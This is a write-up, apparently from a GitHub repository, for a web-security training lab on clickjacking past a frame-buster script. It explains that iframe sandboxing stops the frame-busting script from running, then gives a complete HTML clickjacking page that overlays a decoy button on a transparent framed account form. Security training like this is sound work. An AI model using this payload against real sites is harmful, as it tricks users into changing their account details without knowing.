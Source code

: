 
### LAB 3 - Clickjacking with a frame buster script

### Lab Description

![lab3-desc](https://github.com/user-attachments/assets/f9d7e280-5267-46a5-a9ee-1c426988d74e)

### Solution

A frame-buster script on the target detects framing by checking if `window != top`. If detected, the page wipes itself clean.

The email change functionality is a simple form, this time with an added script:

<img width="652" height="381" alt="image" src="https://github.com/user-attachments/assets/dfd72b89-47a2-4681-a789-942c287b81a4" />




Frame-busting in action:

<img width="243" height="125" alt="image" src="https://github.com/user-attachments/assets/8efa36da-b6ca-4837-805a-6e632f72ad35" />


To bypass, use iframe sandboxing. `sandbox="allow-forms"` disables scripts but allows form submission:


```html
<head>
  <style>
    #target_website {
      position: relative;
      width: 600px;
      height: 600px;
      opacity: 0.1;
      z-index: 2;
    }
    #decoy_website {
      position: absolute;
      width: 600px;
      height: 600px;
      z-index: 1;
    }
    #btn {
      position: absolute;
      top: 440px;
      left: 70px;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
    <button id="btn">Click me</button>
  </div>
  <iframe id="target_website" src="https://id.web-security-academy.net/my-account?email=test@test.com" sandbox="allow-forms"></iframe>
</body>
```
